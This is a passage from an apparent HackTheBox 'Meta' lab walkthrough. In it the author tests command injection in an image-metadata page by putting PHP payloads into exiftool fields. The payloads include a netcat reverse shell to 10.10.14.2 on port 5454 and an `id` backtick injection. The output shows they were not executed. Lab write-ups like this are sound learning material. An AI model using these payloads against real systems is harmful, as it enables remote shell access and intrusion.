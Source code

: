 ```bash
Image Size                      : 36x26
Megapixels                      : 0.000936

```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/2_0_first_try.png" width="90%"/>
</p>

Due to the format of the output I believe that the displayed info is directly taken from the exiftool command. I will focus again on command injection.


```bash
exiftool -Comment='<?php system("nc 10.10.14.2 5454 -e /bin/bash"); ?>'
exiftool -Comment='<?php exec("ls") ?>'
```

But our payload does not get interpreted:

```php
<pre>File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 36
Image Height                    : 26
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8
Artist                          : `id`
Comment                         : <!--?php system("nc 10.10.14.2 5454 -e /bin/bash"); ?-->
</pre>
```
